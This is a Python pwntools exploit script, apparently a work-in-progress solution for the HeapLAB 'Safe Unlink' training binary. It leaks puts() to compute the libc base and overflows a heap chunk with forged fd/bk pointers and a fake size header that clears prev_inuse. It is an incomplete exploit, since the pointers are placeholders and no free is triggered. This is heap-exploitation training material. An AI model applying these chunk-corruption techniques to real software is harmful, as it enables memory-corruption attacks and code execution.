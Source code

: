 ```python
# -- Exploit goes here --

idx = 0

def malloc(size):
    global idx
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'size: ', str(size).encode())
    idx+=1
    return idx-1

def edit(idx,data): 
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'index: ', str(idx).encode())
    io.sendafter(b'data: ', data)  

def free(idx):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'index: ', str(idx).encode())

io = start()

"""
===============
|   HeapLAB   |  Safe Unlink
===============

puts() @ 0x77000306faf0

1) malloc 0/2
2) edit
3) free
4) target
5) quit
> 

"""

io.recvuntil(b'puts() @ ')
puts = int(io.recvline().strip(), 16)
log.info(f'puts: {hex(puts)}')  
libc.address = puts - libc.symbols.puts
log.info(f'libc base: {hex(libc.address)}')

chunk_A = malloc(0x88) # idx 0
chunk_B = malloc(0x88) # idx 1

payload = p64(0xdeadbeef) # fd
payload += p64(0xcafebabe) # bk
payload += b'A'*0x70
payload += p64(0x90) # prev_size
payload += p64(0x90) # size (prev_inuse = 0)

edit(chunk_A, payload)

io.interactive()

```
